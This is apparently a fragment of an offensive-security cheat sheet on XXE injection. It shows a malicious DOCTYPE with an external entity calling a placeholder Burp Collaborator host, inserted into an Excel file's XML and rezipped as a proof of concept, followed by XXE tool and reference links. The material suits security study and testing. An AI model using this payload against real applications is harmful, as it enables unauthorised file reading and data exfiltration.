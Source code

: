 ```
<xml...>
<!DOCTYPE x [ <!ENTITY xxe SYSTEM "http://YOURCOLLABORATORID.burpcollaborator.net/"> ]>
<x>&xxe;</x>
<workbook...>
```

Rebuild the Excel file.

```
$ zip -r ../poc.xslx *
updating: [Content_Types].xml (deflated 71%)
updating: _rels/ (stored 0%)
updating: _rels/.rels (deflated 60%)
updating: docProps/ (stored 0%)
updating: docProps/app.xml (deflated 51%)
updating: docProps/core.xml (deflated 50%)
updating: xl/ (stored 0%)
updating: xl/workbook.xml (deflated 56%)
updating: xl/worksheets/ (stored 0%)
updating: xl/worksheets/sheet1.xml (deflated 53%)
updating: xl/styles.xml (deflated 60%)
updating: xl/theme/ (stored 0%)
updating: xl/theme/theme1.xml (deflated 80%)
updating: xl/_rels/ (stored 0%)
updating: xl/_rels/workbook.xml.rels (deflated 66%)
updating: xl/sharedStrings.xml (deflated 17%)
```

### **Tools**

[https://www.xxe.sh/](https://www.xxe.sh/)

[https://github.com/BuffaloWill/oxml_xxe](https://github.com/BuffaloWill/oxml_xxe)

[https://github.com/enjoiz/XXEinjector/](https://github.com/enjoiz/XXEinjector/)

[https://github.com/lc/230-OOB](https://github.com/lc/230-OOB)

[https://github.com/staaldraad/xxeserv](https://github.com/staaldraad/xxeserv)

[https://github.com/luisfontes19/xxexploiter](https://github.com/luisfontes19/xxexploiter)



### **References**

[https://portswigger.net/web-security/xxe](https://portswigger.net/web-security/xxe)

[https://www.synack.com/blog/a-deep-dive-into-xxe-injection/](https://www.synack.com/blog/a-deep-dive-into-xxe-injection/)

[https://medium.com/@klose7/https-medium-com-klose7-xxe-attacks-part-1-xml-basics-6fa803da9f26](https://medium.com/@klose7/https-medium-com-klose7-xxe-attacks-part-1-xml-basics-6fa803da9f26)

[https://medium.com/@klose7/xxe-attacks-part-2-xml-dtd-related-attacks-a572e8deb478](https://medium.com/@klose7/xxe-attacks-part-2-xml-dtd-related-attacks-a572e8deb478)
